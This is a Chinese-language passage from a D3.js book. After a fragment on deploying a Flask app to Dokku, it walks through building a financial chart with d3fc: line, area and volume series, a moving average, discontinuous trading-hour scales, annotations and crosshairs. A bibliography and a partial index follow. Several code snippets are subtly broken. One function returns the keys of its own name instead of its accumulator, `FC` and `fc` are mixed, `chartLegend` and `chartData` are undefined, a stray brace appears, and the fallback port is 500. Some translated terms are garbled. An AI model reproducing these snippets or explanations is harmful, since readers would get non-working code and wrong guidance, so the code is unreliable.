- 2. 安装 Gunicorn：`pip install gunicorn`
- 3. 使用以下命令更新 requirements.txt 文件：`pip freeze > requirements.txt`
- 4. 创建一个新的本地 Git 仓库：`git init`, `git remote add dokku dokku@own IP address`。

需要更新 `app.py`。

```python
if __name__ == '__main__':
    port = int(os.environ.get('PORT', 500))
    app.run(host='0.0.0.0', port=port)
```

因此，我们首先尝试从应用程序的环境变量中获取端口；如果失败，则回退到 500 端口。

此外，请确保更新导入部分：

```python
import os
```

部署：提交更改后进行推送：`git push dokku master`。如果一切顺利，您应该在终端上看到以下内容：

## 使用 D3 和 d3fc 创建复杂的金融图表

在制作复杂的定制图表时，D3 在 JavaScript 可视化/图表框架中显然是胜出者。本章将向您讲解使用 D3 和 d3fc 创建“高级”金融图表的过程。

D3 是一个强大的图表和可视化工具，但其 API 仅限于路径 (routes)、矩形、组和其他原语。

许多图表框架是基于 D3 构建的，这使得生成传统图表变得更加容易，然而，D3 的核心能力在此过程中丢失了。

我们选择了 d3fc 这种完全不同的方法，它扩展了 D3 语言，允许您直接处理序列 (series)、注释 (annotations) 和网格线 (gridlines)，同时保持 D3 的底层强度。

总之，理论讲得够多了；这篇博文将向您展示如何一步步制作图表。多实践，少理论！

### 制作一个简单的图表

让我们从创建一个简单的图表开始。

该图表的数据是 CSV 格式，可以使用带有 Promise 的新 D3v5 请求 API 加载。下面的代码加载了数据并应用了一些简单的转换：

```javascript
const loadDataEndOfDay = d3.csv("/yahoo.csv", d => ({
  date: new Date(d.Timestamp * 1000),
  volume: Number(d.volume),
  high: Number(d.high),
  low: Number(d.low),
  open: Number(d.open),
  close: Number(d.close)
}));
```

```javascript
loadDataEndOfDay.then(data => {
  // render the chart here
});
```

为了渲染图表，我们需要一个 HTML 元素：

```html
<div id="chart-element" style="height: 500px"></div>
```

一旦数据加载完成，我们使用极少量的 d3fc 组件来渲染数据：

```javascript
const xExtent = FC.extentDate()
  .accessors([d => d.date]);
const yExtent = FC.extentLinear()
  .pad([0.1, 0.1])
  .accessors([d => d.high, d => d.low]);
```

```javascript
const lineSeries = fc
  .seriesSvgLine()
  .mainValue(d => d.high)
  .crossValue(d => d.date);
```

```javascript
const chart = fc
  .chartCartesian(d3.scaleTime(), d3.scaleLinear())
  .yOrient("right")
  .yDomain(yExtent(data))
  .xDomain(xExtent(data))
  .svgPlotArea(lineSeries);
```

```javascript
d3.select("#chart-element")
  .datum(data)
  .call(chart);
```

上述代码使用了线序列 (lines series)、图表组件 (chart components) 和 d3fc 范围 (extent)。我对每一个做一个简单的解释：

Extent 组件的工作方式类似于 D3 的 `extent` 函数，它计算数组的最大值和最小值。这用于确定图表的域（或可见范围）。d3fc 的 extent 组件允许您设置内边距 (padding)、对称性、指定值和其他重要特性——更多信息请参阅 API 文档。

`mainValue`/`crossValue` 属性定义了底层数据的访问器，而线序列组件则生成一条 SVG 线条。

最后，图表组件生成一个具有两个轴和一个绘图区域的图表。通过将其指定为绘图区域，线序列被链接到图表中。图表同样支持 Canvas 组件，例如 `seriesCanvasLine`。该图表是响应式的，这意味着如果元素大小发生变化，它会立即重新渲染。

这些组件都遵循 Mike Bostock 的标准 D3 组件约定，允许它们通过 D3 数据连接 (data joins) 进行渲染。如您所见，它们都是自包含的，这意味着您可以单独使用它们，或者将它们与其他 D3 代码结合使用。

### 填充空间

一些图表库将线条、点和区域合并为一种单一的序列类型，而 d3fc 主张一种“微组件”方法，其中每种类型都分别表示。为了在图表中实现精致的渐变填充效果，需要一个额外的区域序列 (area series) 组件：

```javascript
const areaSeries = FC
  .seriesSvgArea()
  .baseValue(d => yExtent(data)[0])
  .mainValue(d => d.high)
  .crossValue(d => d.date);
```

`baseValue` 访问器被设置为最小 y 值，这是一个常数。这保证了渐变填充延伸至值的可见范围，而不是一直延伸到零。

另一个 d3fc 组件是网格线 (gridlines)：

```javascript
const gridlines = FC
  .annotationSvgGridline()
```


```javascript
.yTicks(5)
.xTicks(0);
```

单个系列可以绘制在图表的绘图区域内，但是，可以通过使用多系列（multi-series）将许多系列实例组合在一起：

```javascript
const multi = fc.seriesSvgMulti()
  .series([gridlines, areaSeries, lineSeries]);
const chart = FC
// ...
  .svgPlotArea(multi);
```

所有 d3fc 系列组件都提供 x 和 y 比例尺（scale）功能，当元素被添加到绘图区域时，这些比例尺由图表本身重新固定，这在直观上并不立即可见。比例尺由多系列传递给每个子系列。

### 集成移动平均线

移动平均线（Moving Average）被添加到图表中，它通过计算前“n”个数据点的平均值来平滑底层数据。它是 d3fc 中包含的金融指标组件之一。

以下代码生成一个 15 周期的移动平均线组件实例，该实例基于“最高价”（high）值进行计算（即，输出数据中的每个点是前 15 个值的平均结果）。

当使用图表数据调用组件实例时，会返回移动平均线：

```javascript
const ma = FC
  .indicatorMovingAverage()
  .value(d => d.high)
  .period(15);
const maData = ma(data);
```

由于 D3 的数据连接（data joins）处理的是单个数据数组，因此将移动平均线合并到当前系列中是将其添加到图表的最简单方法。以下示例使用对象展开运算符（object spread）克隆每个数据点并添加移动平均线的值：

```javascript
data = data.map((d, i) => ({ ma: maData[i], ...d }));
```

D3 在数据及其视觉表示之间保持着清晰的区分，d3fc 也遵循这一点。我们只需要向图表添加另一个系列来表示移动平均线：

```javascript
const movingAverageSeries = FC
    .seriesSvgLine()
    .mainValue(d => d.ma)
    .crossValue(d => d.date)
    .decorate(sel =>
        sel.enter()
            .classed("ma", true)
    );
```

上述多系列组件用于将上述系列添加到图表中。

你可能会好奇为什么存在这种有趣的装饰（decorating）方法。它暴露了该模块用于自我精简的因果数据连接，这是 d3fc 的基本特性之一。这意味着你可以利用 D3 的全部功能来操作组件。在本例中，我们仅使用 `enter` 选择集添加了一个类，但通过装饰，你可以实现更多迷人且强大的功能！

现在移动平均线就位，图表看起来开始变得有趣了。

### 包含成交量集

我们正在复现的 Yahoo 图表使用柱状图显示股票的成交量，绿色柱子表示价格上涨，红色柱子表示价格下跌。该系列的显示方式有点不寻常；成交量系列显示在与主价格系列相同的区域，但仅占据图表的底部三分之一。此外，没有明显的坐标轴。

你可以使用上述设计模式向图表添加更多绘图部分，但对于成交量系列，有一种更快捷的方法可以实现！

D3 比例尺是一个非常有用的概念，用于将一个定义域（domain）映射到另一个定义域。通过将成交量定义域映射到价格定义域并以相同的比例渲染，可以轻松添加成交量系列。这非常简单。

为了确定成交量值的范围，我们必须首先建立一个范围（extent）组件：

```javascript
const volumeExtent = fc
  .extentLinear()
  .include([0])
  .pad([0, 2])
  .accessors([d => d.volume]);
const volumeDomain = volumeExtent(data);
```

`[0, 2]` 的填充（padding）确保了成交量系列被向下移动到图表的底部三分之一，而 `include` 确保返回的范围包含零。

真正的魔力始于以下比例尺，它将成交量定义域映射到价格定义域：

```javascript
const volumeToPriceScale = d3
  .scaleLinear()
  .domain(volumeDomain)
  .range(yExtent(data));
```

在 `mainValue` 访问器中声明上述比例尺，柱状系列组件将提取成交量数据：

```javascript
const volumeSeries = FC
  .seriesSvgBar()
  .bandwidth(2)
  .crossValue(d => d.date)
  .mainValue(d => volumeToPriceScale(d.volume))
  .decorate(sel =>
    sel
      .enter()
      .classed("volume", true)
      .attr("fill", d => (d.open > d.close ? "red" : "green"))
  );
```

在这种情况下，`decorate` 函数创建了一个选择集（数据连接），将每个单独的柱体渲染为 SVG 路径。`attr` 函数根据价格上涨或下跌调整颜色，这是装饰模式发挥作用的一个绝佳示例！

### 插入图例

图表的图例是一个基础表格，显示图表最新数据点的开盘价、最高价、最低价、收盘价和成交量。使用 D3 数据连接可以很直接地呈现这些信息，这就是为什么我们没有在 d3fc 中包含图例组件的原因——因为它没有必要。

为了清晰起见，将组件功能封装在组件辐射（component radiant）中（以便潜在的重复使用）仍然是有价值的。

这是一个基础的图例组件，它接收一个包含具有 `name` 和 `value` 属性的对象的数组作为输入：

```javascript
const legend = () => {
  const labelJoin = fc.dataJoin("text", "legend-label");
  const valueJoin = FC.dataJoin("text", "legend-value");

  const instance = selection => {
    selection.each((data, selectionIndex, nodes) => {
      labelJoin(d3.select(nodes[selectionIndex]), data)
        .attr("transform", (_, i) => "translate(50, " + (i + 1) * 15 + ")")
        .text(d => d.name);

      valueJoin(d3.select(nodes[selectionIndex]), data)
        .attr("transform", (_, i) => "translate(60, " + (i + 1) * 15 + ")")
        .text(d => d.value);
    });
  };

  return instance;
};
```

你会注意到，上述代码使用 d3fc 的 `dataJoin` 组件而非经典的 D3 数据连接方式来创建 SVG 文本组件。该组件允许你指定每个数据点都应有一个由 `legend-label` CSS 类唯一标识的文本组件，而无需显式管理 `enter`、`update` 和 `exit` 选择集。

Chris Price 的《Building Components with D3 Data Join》是深入了解该组件功能的绝佳资源。

以下代码将单个数据点转换为 name/value 对数组，可用上述组件进行渲染：

```javascript
const dateFormat = d3.timeFormat("%a %H:%M%p");
const priceFormat = d3.format(",.2f");
const legendData = datum => [
  { name: "Open", value: priceFormat(datum.open) },
  { name: "High", value: priceFormat(datum.high) },
  { name: "Low", value: priceFormat(datum.low) },
  { name: "Close", value: priceFormat(datum.close) },
  { name: "Volume", value: priceFormat(datum.volume) }
];
```

最后一步是添加图表的图例。我们再次使用装饰模式：

```javascript
const chart = FC
  .chartCartesian(d3.scaleTime(), d3.scaleLinear())
  // ...
  .decorate(sel => {
    sel
      .datum(legendData(data[data.length - 1]))
      .append("svg")
      .style("grid-column", 3)
      .style("grid-row", 3)
      .classed("legend", true)
      .call(chartLegend);
  });
```

图例数据通过 `datum` 使用修饰选择集绑定到当前选择集中。图表组件使用 CSS 网格布局，上述代码在第三行和第三列的绘图区域添加了一个新的 SVG 元素。最后，使用选择集的 `call` 方法渲染图例组件。

为了像原图一样，还需要进行一些细微的美学调整，例如拉伸坐标轴刻度、添加边框以及偏移坐标轴标签。这些只是细微的调整，我在这里不再详细展开。现在是时候转向更令人兴奋的内容了！

### 交易时间与非连续坐标轴

目前的图表仅显示几个小时的交易数据；当将其扩展到包含数天的数据时，图形会变得有些奇怪。

首先，股票在有固定营业时间的交易所交易，例如，著名的纽约证券交易所的交易时间是上午 9:30 到下午 4:00，此时大多数交易员在场。其次，存在少量的盘后交易，虽然成交量通常很小，但确实会导致价格波动。

金融图表经常使用“非连续”坐标轴，也就是说，一个带有若干“断点”的坐标轴，因为在价格没有变化的时段进行绘制几乎没有意义。

d3fc 中的非连续比例尺组件允许你通过引入间隙或断点来自定义比例尺。这里有一个简单的例子，展示如何创建一个在 50 到 75 以及 100 到 125 之间有间隙的线性比例尺：

```javascript
var scale = FC.scaleDiscontinuous(d3.scaleLinear())
    .discontinuityProvider(FC.discontinuityRange([50, 75], [100, 125]));
```

非连续提供者（discontinuity provider）接口还允许你创建周期性的非连续点，例如跳过每个周末的图表，但对于我们的需求，基于几个离散范围的非连续点就足够了。

基本的核心步骤是找出我们数据中每天的第一笔和最后一笔交易发生的时间。以下函数将完成这项工作：

```javascript
const tradingHours = dates => {
    const getDateKey = date =>
        date.getMonth() + '/' + date.getDate() + '/' +
        date.getFullYear();

    const tradingminute = dates.reduce((acc, curr) => {
        const dateKey = getDateKey(curr);
        if (!acc.hasOwnProperty(dateKey)) {
            acc[dateKey] = [curr, curr];
        } else {
            acc[dateKey][1] = curr;
        }
        return acc;
    }, {});
```


 ```
return Object.keys(tradingHours).map
(d => tradingHours[d]);
};
```

D3 的 `pairs` 函数用于“将一天的收盘价与下一天的开盘价配对”，从而创建所需的间断点：

```
const xScale = FC.scaleDiscontinuous(d3.scaleTime());

const tradingHoursArray = tradingHours(data.map(d =>
d.date));
const discontinuities = d3
  .pairs(tradingHoursArray)
  .map(d => [d[0][1], d[1][0]]);

xScale.discontinuityProvider(FC.discontinuityRange(...
discontinuities));
```

由于底层的 D3 比例尺决定在每天的午夜添加刻度标记，而这正好落在我们的间断点内，导致我们的 x 轴刻度消失了。

设置特定的刻度间隔可以轻松解决这个问题：
// 为每天创建 10:30 的刻度

```
const xTicks = d3.timeMinute
  .every(30)
  .filter(d => d.getHours() === 10 && d.getMinutes()
=== 30);

const chart = fc
  .chartCartesian(xScale, yScale)
  // ...
  .xTicks(xTicks)
```

## 注释 (ANNOTATIONS)

原图有一些有趣的注释，由垂直线和色带组合而成，有助于阐明盘后交易。为了渲染此类功能，d3fc 提供了多种不同的注释类型。

我们在 here 使用了色带（band）和直线（line）注释：

```
const verticalAnnotation = fc
  .annotationSvgLine()
  .orient("vertical")
  .value(d => d.value)
  .decorate(sel => {
    sel
      .enter()
      .select(".bottom-handle")
      .append("use")
      .attr("transform", "translate(0, -20)")
      .attr("xlink:href", d => d.type);
    sel
      .enter()
      .select(".bottom-handle")
      .append("circle")
      .attr("r", 3);
  });
```

```
const bands = fc
  .annotationSvgBand()
  .orient("vertical")
  .fromValue(d => d[0][1])
  .toValue(d => d[1][0]);
```

装饰模式被用于给垂直线注释添加许多额外功能，包括小圆形的时钟图标。

这些注释并不是绑定到主要的时间序列数据，而是渲染间断点。那么，我们如何将这些信息传递给它们呢？

第一步是将相关数据添加到图表输出的属性数组中：

```
data.tradingHoursArray = tradingHoursArray;
```

注释是通过多序列（multi-series）组件添加的，该组件为某些组件的绑定数据提供了一个有用的映射函数，例如更改这两个注释的数据：

```
const multi = FC
  .seriesSvgMulti()
  .series([
    gridlines,
    areaSeries,
    lineSeries,
    movingAverageSeries,
    volumeSeries,
    bands,
    verticalAnnotation
  ])
  .mapping(({data, index, series}) => {
    switch (series[index]) {
      case verticalAnnotation:
        return flatten(data.tradingHoursArray.
map(markersForDay));
      case bands:
        return d3.pairs(
          data.tradingHoursArray.map(d => 
exchangeOpeningHours(d[0]))
        );
      default:
        return data;
    }
  });
```

## 十字光标 (CROSSHAIRS)

最后，我们将通过加入一个跟踪光标位置的十字光标，为图表增加一些交互性。为此，我们需要处理图表绘图区域的鼠标/指针事件。鼠标事件由 d3fc 中的一个基础指针组件处理，该组件将光标的 x 和 y 坐标作为事件发出。

为了利用这一点，图表代码需要进行一定的结构调整，以便在处理事件时能够重新渲染。需要进行以下修改：

```
const render = () => {
  d3.select("#chart-element")
    .datum(data)
    .call(chart);
};
```

```
const pointer = fc.pointer().on("point", event => {
  data.crosshair = event.map(({x}) => {
    const closestIndex = d3.bisector(d => d.date)
      .left(chartData, xScale.invert(x));
    return data[closestIndex];
  });
  render();
});

d3.select("#chart-element .plot-area").
call(pointer);
};
render();
```

`render` 函数允许你重新渲染整个图表。

上述代码通过使用 D3 二分查找器（bisector）和光标的 x 坐标来找到最近的数据点，从而处理 `point` 事件。最近的点被添加到图表渲染数据的 `crosshair` 属性中。下一步是添加一个组件（在本例中为 d3fc 的十字光标组件）来渲染该数据。

实际观看此功能的运行效果比提供截图更好，因此请前往 GitHub 查看完成后的图表。

## 总结 (SUMMARY)

D3 非常灵活；你几乎可以用它制作任何东西。我们希望通过将 d3fc 与 D3 结合，能够在不牺牲 D3 功能的前提下，快速创建复杂的图表。

## 注意 (NOTE)

1. https://www.smashingmagazine.com/2018/02/react-d3-ecosystem/

## 参考文献 (Bibliography)

1. D3js – https://www.tutorialsteacher.com/d3js/what-is-d3js, 访问日期 2022年7月3日。
2. Data driven d3 – https://www.geeksforgeeks.org/d3-js-data-driven-documents/, 访问日期 2022年7月3日。
3. d3 – https://observablehq.com/@d3/learn-d3, 访问日期 2022年7月3日。
4. d3js introduction – https://www.tutorialspoint.com/d3js/d3js_introduction.htm, 访问日期 2022年7月3日。
5. d3 introduction – https://www.d3indepth.com/introduction/, 访问日期 2022年7月4日。
6. https://www.freecodecamp.org/news/d3js-tutorial-data-visualization-for-beginners/, 访问日期 2022年7月4日。
7. D3js – https://d3js.org/, 访问日期 2022年7月4日。
8. Data visualization – https://analytiks.co/importance-of-data-visualization/, 访问日期 2022年7月4日。
9. Visualization using d3 – https://www.educative.io/courses/introduction-to-visualization-using-d3js/JQo12EmDXoK, 访问日期 2022年7月5日。
10. Pros cons – https://comparecamp.com/d3-js-review-pricing-pros-cons-features/, 访问日期 2022年7月5日。
11. Pro and cons – https://www.cloudhadoop.com/2018/08/understand-d3js-library-pros-and-cons.html, 访问日期 2022年7月5日。
12. D3js – https://livebook.manning.com/book/d3js-in-action-second-edition/chapter-1/, 访问日期 2022年7月6日。
13. Application in D3 – https://devnet.logianalytics.com/hc/en-us/articles/360050736373-D3.js-Sample-Application, 访问日期 2022年7月6日。
14. Intro D3js – https://mohammeddhaoui.github.io/dataengineering/d3js/, 访问日期 2022年7月6日。
15. About D3js – https://www.quora.com/What-is-D3.js, 访问日期 2022年7月7日。
16. Data visualization with d3 – https://towardsdatascience.com/data-visualization-with-d3-js-for-beginners-b62921e03b49?gi=cf2e6fdd9f4c, 访问日期 2022年7月7日。
17. Advanced d3 – https://www.educative.io/blog/advanced-d3-tutorial, 访问日期 2022年7月8日。
18. https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Basic_Shapes, 访问日期 2022年7月8日。
19. SVG rect in D3 – https://www.w3schools.com/graphics/svg_rect.asp, 访问日期 2022年7月9日。
20. SVG intro in D3 – https://www.w3schools.com/graphics/svg_intro.asp, 访问日期 2022年7月9日。
21. SVG polygon – https://www.w3schools.com/graphics/svg_polygon.asp, 访问日期 2022年7月10日。
22. SVG circle in D3 – https://www.w3schools.com/graphics/svg_circle.asp, 访问日期 2022年7月10日。
23. https://blog.hubspot.com/marketing/types-of-graphs-for-data-visualization, 访问日期 2022年7月10日。
24. Data-Driven Businesses Demand Instrumental Use of Data Visualization – https://www.analyticsinsight.net/data-driven-businesses-demand-instrumental-use-data-visualization/, 访问日期 2022年7月11日。
25. Complete Javascript Resources, Information Tools Validators – RSH Web, https://rshweb.com/blog-javascript-resources, 访问日期 2022年7月11日。
26. Arrange more than one d3.js graph with Bootstrap – http://www.d3noob.org/2013/07/arrange-more-than-one-d3js-graph-with.html, 访问日期 2022年7月12日。
27. Purpose of the integrity attribute in HTML, https://www.devasking.com/issue/what-is-the-purpose-of-the-integrity-attribute-in-html-duplicate, 访问日期 2022年7月12日。
28. What is Data Visualization, https://www.ibm.com/cloud/learn/data-visualization, 访问日期 2022年7月12日。
29. Data visualization in Angular using D3.js – LogRocket Blog, https://blog.logrocket.com/data-visualization-angular-d3, 访问日期 2022年7月13日。
30. Building a Complex Financial Chart with D3 and d3fc – Scott Logic, https://blog.scottlogic.com/2018/09/21/d3-financial-chart.html, 访问日期 2022年7月13日。
31. Building a BitClout Social Network Visualization App – Memgraph, https://memgraph.com/blog/visualize-the-bitclout-network-using-d3js, 访问日期 2022年7月14日。


## 索引

### A

- addBackgroundBit, 87–88
- addChallengeRow, 88–89
- 高级 D3.js, 44
    - bootstrap，结合 d3.js 使用, 49
    - 图表组件，显示/隐藏, 48
    - HTML 表格与图表, 47–48
    - if 语句, 48–49
    - 过渡链 (transition chaining), 44–45
    - 使用 D3.js 为对象添加网络链接, 45–47
- D3.js 的优势, 9
- Angular
    - 以及 D3 的安装, 161
    - 制作柱状图, 162–165
    - 结合 Angular 的 D3.js 数据可视化, 160
    - 制作饼图, 165–168
    - 制作散点图, 168–170
- AnimationFrame, 99
- 注释 (Annotations), 191–193
- 匿名函数与 D3 函数, 124
    - 尽可能避免循环, 125–126
    - 推迟不必要的 JavaScript 加载, 127
    - 减少 DOM 访问, 126
    - 保持代码简洁直接, 125
    - 消除内存泄漏, 127
    - 管理内存使用, 127
    - 对象缓存, 126
- append() 函数, 25–26
- appendChild 方法, 99
- D3.js 的应用, 9–10
- 使用 Three.js 构建应用, 62
- AR, *见* Augmented reality (增强现实)
- 数组与对象操作, 38
- 数组技巧, 141
- 异步编程, 124
- attr() 函数, 28, 187
- 增强现实 (AR), 95

### B

- baseValue 访问器, 184
- Billboard, 147
- BitCloud 网络, 108, 115–116
    - Flask 服务器后端开发, 111–116
    - 前置条件, 108–109
    - Python 脚本, 109–111
- Bootstrap, 49–50
    - 按锚点顺序排列图表, 53
    - 使用不同锚点排列图表, 53
    - Bootstrap 中的网格布局原理, 54–59
    - 在 HTML 代码中实现, 50–51
    - 界面组件, 50
    - 布局网格, 50
    - 使用网页显示多个图表, 51–52
    - 结合 d3.js 使用, 49
- Bower 组件, 175
- Britecharts, 147–148
- Britecharts React, 158–159
- 气泡 (Bubbles) 配置, 177
- 导入商业计划, 103

### C

- Canvas, 36, 96
- D3.js 的职业前景, 143–144
- 层叠样式表 (CSS), 4, 22–23, 36–37, 181
- CDN, *见* Content Delivery Network (内容分发网络)
- Centroid 函数, 168
- 链式过渡 (Chain transitions), 44
- 挑战行 (Challenge rows), 88–89
- Chrome 开发者工具, 127
- Circle 元素, 34
- classed() 函数, 30
- 客户端攻击与数据外泄, 128–130
- 代码优化, 123
    - 匿名函数与 D3 函数, 124
    - 异步编程, 124
    - 尽可能避免循环, 125–126
    - 创建特定的模块化函数, 133–134
    - 变量的声明与初始化, 133
    - 设置默认选项, 138
    - 推迟不必要的 JavaScript 加载, 127
    - 减少 DOM 访问, 126
    - DOM 操作, 135–136
    - 识别并消除重复代码, 134
    - 包含假值 (false values) 的条件判断, 139–140
    - 频繁的代码注释, 134–135
    - 全局变量, 136
    - includes(), 139
    - indexOf() 方法, 139
    - 继承与方法共享, 140
    - 保持代码简洁直接, 125
    - 消除内存泄漏, 127
    - 管理内存使用, 127
    - 对象缓存, 126
    - 递归函数, 135
    - 简写 notation, 136–137
    - 严格模式, 137–138
    - 模板字面量, 138
    - 使用数组技巧创建更短的循环, 141
    - 编写优化且高效的代码, 123–124
- 碰撞检测, 82–87
- 逗号分隔值 (CSV), 39, 171
- componentDidUpdate 生命周期方法, 149
- Compose, 109
- 内容分发网络 (CDN), 7
- createGraph() 函数, 176, 177, 178, 179
- createSvg 方法, 164, 169
- 十字光标 (Crosshairs), 193–194
- 跨站脚本攻击 (XSS), 131
- CSS, *见* Cascading Style Sheets (层叠样式表)
- CSV, *见* Comma-Separated Values (逗号分隔值)

### D

- d3.select() 方法, 20
- d3.selectAll() 方法, 21–22
- 基于 D3 的库, 146–147
- d3f 组件, 147, 182–186, 188–190, 191, 193–194
- D3 可视化, 172–174
- 数据外泄, 128–130
- 数据提取, 172–174
- 数据连接 (Data joins), 146
- D3 中的数据加载, 14–15
- 数据标准, 38–40
- 数据转换布局, 40
    - 分层堆叠, 41
- 数据可视化, 8, 10–11, 41–42, 143, 144, 160
    - 未来展望, 144–145
    - 原始数据, 11–12
- 数据可视化 JavaScript 库, 12
- Decorate 函数, 187
- 设置默认选项, 138
- 部署, 181
    - 填充空间, 184–185
    - 制作简单图表, 182–184
    - 使用 D3 和 d3fc, 182
- detectCollisions, 82–87
- DictReader() 类, 174
- D3.js 的缺点, 9
- 不连续刻度组件, 190–191
- Docker, 109
- Dockerfile, 120–122
- 文档对象模型 (DOM), 3, 16, 19–20
    - 减少访问, 126
    - 与 D3 的关系, 145
        - Billboard, 147
        - Britecharts, 147–148
        - 基于 D3 的库, 146–147
        - D3FC, 147
        - 数据连接, 146
        - Plottable, 147
        - 流程, 146
        - Vega, 147
    - 与 React 的关系, 148
        - 动态子组件, 148
        - 流程, 148
    - D3 对 DOM 的操作, 24
        - append() 函数, 25–26
        - attr() 函数, 28
        - classed() 函数, 30
        - html() 方法, 27–28
        - insert() 方法, 26–27
        - property() 函数, 28–29
        - remove() 方法, 27
        - style() 函数, 29–30
        - text() 方法, 24–25
    - 操作, 135–136
    - DOM 选择, 20
        - 通过 CSS 类名选择所有元素, 22–23
        - d3.select(), 20
        - d3.selectAll(), 21–22
        - 通过元素 ID 选择, 21
        - 通过元素名称选择, 20–21
        - 选取嵌套元素, 23–24
- Dokku, 172–174, 181
- DOM, *见* Document object model (文档对象模型)
- drawBars() 函数, 164
- drawPlot() 方法, 169
- 识别并消除重复代码, 134

### E

- 技术生态系统, 18, 40
- 编辑器, 7
- 元素 ID 选择, 21
- 元素名称选择, 20–21
- EventHandler onreadystatechange() 方法, 118
- 探索性数据可视化, 11

### F

- FauxDOM React, 150, 159
- D3.js 的特性, 15
    - 为互联网构建, 15–16
    - 持续改进, 16
    - 可视化控制, 16–17
- FlashCoupon, 140
- Flask, 108
- Flask 服务器后端开发, 111–116
- 使用 D3.js 进行前端开发, 117
    - Dockerfile, 120–122
    - 启动应用程序, 122
- 全栈开发, 172–174

### G

- 使用 Three.js 进行游戏设计, *见* Three.js, designing game with
- 包含游戏逻辑, 78
    - 通过键盘输入, 78–79
    - 通过触摸屏输入, 79–80
- 地理信息系统 (GIS) 技术, 39
- get data() 函数, 173, 180
- getExpirationMessage 方法, 140
- getNoise 函数, 71
- GIS 技术, *见* Geographic information systems technologies (地理信息系统技术)
- GitHub, 194
- 全局 JavaScript 对象, 20
- 全局对象, 20
- 全局变量, 136
- Google, 127
- 图表 (Graph)
    - 使用不同锚点排列, 53
    - HTML 表格与图表, 47–48
    - 显示/隐藏图表组件, 48
- Bootstrap 中的网格布局原理, 54–59
- 元素分组, 35–36

### H

- 辅助函数, 14
- Henry, Nicolas, 151
- HTML, *见* HyperText Mark-up Language (超文本标记语言)
- html() 方法, 27–28
- HTTP 协议缓存, 126
- 超文本标记语言 (HTML), 3, 175–176
    - Bootstrap 在其中的实现, 50–51
    - HTML 中的 "canvas" 元素, 96
    - 配置, 97
    - 与文档对象模型 (DOM) 的关系, 19–20
    - 表格与图表, 47–48

### I

- IDEs, *见* Integrated Development Environments (集成开发环境)
- if 语句, 48–49
- includes(), 139
- index() 视图方法, 115
- indexOf() 方法, 139
- 信息可视化 (Info viz), 42–43
- init 函数, 73, 78, 79
- inner radius() 函数, 41
- insert() 方法, 26–27
- 集成开发环境 (IDEs), 7
- 交互式数据可视化, 11
- 交互体验种类, 12
- 互联网, 15–16

### J

- JavaScript, 5, 37, 127, 128
    - 代码清理, 132
    - 客户端攻击与数据外泄, 128–130
    - 调试与篡改, 128
    - 建立验证以避免注入, 131–132
    - 相关框架, 40
    - 完整性检查, 130–131
    - 混淆/压缩 JavaScript 代码, 133
    - 次要版本和补丁版本更新, 131
    - 严格模式, 132
    - 定期测试 NPM 漏洞, 131
- JavaScript Cache API, 126
- JavaScript 对象表示法 (JSON), 40
    - 使用 JSON API, 171–172
    - 响应数据, 119
- jQuery 脚本, 129
- JSON, *见* JavaScript Object Notation (JavaScript 对象表示法)

### K

- 通过键盘输入, 78–79

### L

- 插入图例 (Legend), 188–189
- 生命周期方法包装, 150–152
- Line 元素, 33
- load all() 视图函数, 114
- 局部变量, 136

### M

- mainValue 访问器, 187
- Memgraph, 113, 115–116
- Memgraph DB, 108
- 消除内存泄漏, 127


- 内存使用与管理，127
- 方法链，38
- 移动平均线，185
    - 不连续刻度组件，190–191
    - 图例，插入，188–189
    - 交易时间，190–191
    - 成交量集，包含，186–187
- 多个图表，使用网页显示，51–52

### N

- 使用 D3.js 的必要性，17
- `ngOnInit()` 方法，165, 168, 170, 171, 172
- Nivo，155–157
- Node 和 JavaScript 框架，40
- Node 包管理器 (NPM)，40
- NPM，参见 Node Package Manager

### O

- 对象缓存，126
- OpenGraph 着色语言，71
- Otto, Mark，50

### P

- 填充布局 (Pack Layout)，41
- `parseFloat` 函数，141
- 饼图和圆环图，40
- Plottable，147
- `property()` 函数，28–29
- Protovis，2
- Pymgclient，109
- Python，144
- Python 3，109
- Python-NVD3，176
- Python 脚本，109–111

### Q

- 查询字符串 (Query String) 格式，129

### R

- R (编程语言)，144
- RAIL 模型，127
- 原始数据可视化，11–12
- React
    - 与 D3.js 的关系，148–149
    - React 内部使用 D3.js，149–150
    - 与文档对象模型 (DOM) 的关系，148, 152–154
    - 动态子组件，148 过程，148
- React-D3.js 库，154
    - angular，160
    - angular 和 D3 安装，161
    - 柱状图，映射，162–165
    - 饼图，映射，165–168
    - 散点图，映射，168–170
- BriteCharts React，158–159
    - 选择方法/库，159–160
    - 数据可视化，160
    - 外部数据源，171
        - CSV 文件，171
        - JSON API，使用，171–172
    - Nivo，155–157
    - recharts，154–155
    - VX，157–158
- React DOM 树，150
- Recharts，154–155
- 矩形元素，34
- 递归函数，135
- `remove()` 方法，27
- render 函数，69, 90, 194
- 渲染循环，最后修饰，89–90
- 响应式 SVG 容器，32
- 可复用图表 API，147

### S

- 可伸缩矢量图形 (SVG)
    - 配置，4, 30, 178
    - 圆形元素，34
    - 坐标系，32–33
    - 线条元素，33
    - 路径，34
    - 矩形元素，34
    - 响应式 SVG 容器，32
    - 文本，34–35
- 刻度 (Scales)，15
- 散点图，168
- 选择 (Selection)，13
- 服务器 Web，7
- 搭建 D3 环境，5–9
- 创建更短的循环，141
- 简写符号，136–137
- `shouldComponentUpdate` 方法，149
- 捕获静默错误，137–138
- `simulationUpdate()` 函数，119
- SRI，参见 Subresource integrity
- 启动项目布局，103
    - 3D 模型，104
        - 加载，105
    - 3D 开发建议，105–106
- 严格模式，132, 137–138
- 分层堆叠，41
- `style()` 函数，29–30
- 层叠样式表 (CSS)，36
- Interoprint, JavaScript，37
- 子资源完整性 (SRI)，130
- SVG 配置，参见 Scalable Vector Graphics configuration
- 语法，13–14

### T

- 模板字符串，138
- `text()` 方法，24–25
- Thornton, Jacob，50
- 3D 应用，98–99
- 3D 模型，104
    - 加载，105
    - 3D 开发建议，105–106
- Three.js，使用其构建应用，62, 96
    - 业务计划，导入，103
    - 代码教程，97
    - 本地机器开发服务器，100
        - Mac 用户，100
        - Windows 用户，100
    - 绘制几何图形并调整视口大小，100–103
    - 初始 HTML 配置，97
    - 安装与下载，97
    - 3D 应用，98–99
- Three.js，使用其设计游戏，62
    - 代码教程，63
    - 创建运动感，63
        - 在限定约束内的无限运动，63–64
    - 配置游戏项目，64
        - TypeScript 环境配置，68
        - 添加 Webpack 文件，65–68
    - 最终场景规划，74–78
    - 包含游戏逻辑，78
        - 键盘输入，78–79
        - 触摸屏输入，79–80
    - 想象天空，73–74
    - 场景中移动的对象，80
        - addBackgroundBit，87–88
